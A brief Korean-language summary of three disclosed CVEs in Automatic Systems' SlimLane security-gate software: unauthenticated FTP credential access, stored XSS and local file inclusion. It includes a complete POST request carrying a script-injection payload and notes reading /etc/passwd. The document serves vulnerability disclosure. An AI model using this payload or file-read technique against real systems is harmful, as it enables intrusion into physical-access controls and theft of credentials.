

## URL

[https://daly.wtf/multiple-vulnerabilities-discovered-in-automatic-systems-software/](https://daly.wtf/multiple-vulnerabilities-discovered-in-automatic-systems-software/)

## Target

- *Automatic Systems Maintenance - SlimLane - 29565_d74ecce0c1081d50546db573a499941b10799fb7*

## Explain

Automatic Systems 사의 보안게이트 솔루션인 SlimLane에서 다수의 취약점이 발견되었습니다.

먼저 CVE-2024-48822는 ftp 설정을 관리하는 `/FtpConfig.php`에서 발생한 취약점으로 아래와 같이 별도의 사용자 인증 과정 없이 현재 ftp 설정에서 사용자 이름과 패스워드 등의 정보를 가져오거나 설정하는 것이 가능했습니다.



CVE-2024-48821은 동일하게 `/FtpConfig.php`에서 발생했으며 ftp 설정 변경에 사용된 입력값을 전혀 검사하지 않아 stored XSS 취약점이 발생하고 아래와 같은 페이로드를 통해 임의의 자바스크립트 코드를 실행하는 것이 가능했습니다.

```
POST /FtpConfig.php HTTP/1.1
Host: <IP>
Content-Length: 200
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Connection: keep-alive

{"fct":"save_ftp_config","enabled":true,"host":"\"><script>alert(document.domain)</script>","user":"\"><script>alert(document.domain)</script>","password":"\"><script>alert(document.domain)</script>"}12345678
```


마지막으로 CVE-2024-48823은 `/PassageAutoServer.php`에서 발생한 Local File Inclusion 취약점으로 아래와 같이 `file` 파라미터로 전달된 파일의 데이터를 반환하는 동작을 할 때 `file`이 웹사이트 디렉터리 외부에 존재하는지 검사하지 않아 `/etc/passwd`와 같은 민감한 데이터를 유출하는 것이 가능했습니다.

